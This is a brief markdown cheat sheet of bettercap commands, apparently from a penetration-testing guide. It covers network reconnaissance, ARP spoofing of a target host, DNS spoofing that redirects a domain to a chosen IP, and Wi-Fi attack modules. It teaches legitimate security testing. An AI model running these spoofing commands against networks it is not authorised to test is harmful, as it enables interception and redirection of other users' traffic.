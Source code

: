 https://sankalppatil12112001.medium.com/bettercap-basics-your-ultimate-guide-to-network-penetration-testing-1d6b087a8f31

# run the tool with:
```
sudo bettercap
```
## Common Commands:

### Show available modules:
```
help
```
### List network interfaces:
```
net.show
```
### Set a target:
```
set net.recon.targets 192.168.1.0/24
```
### Start network reconnaissance:
```
net.recon on
```

## Key Features and Use Cases:
### ARP Spoofing

Intercept and manipulate traffic between devices on the network.
```
set arp.spoof.targets 192.168.1.10
arp.spoof on
```
2. DNS Spoofing

Redirect DNS queries to a malicious IP.
```
set dns.spoof.domains example.com
set dns.spoof.address 192.168.1.100
dns.spoof on
```
3. Wi-Fi Hacking

Bettercap supports Wi-Fi attacks like deauth and probe request monitoring.
```
wifi.recon on
wifi.assoc on
```
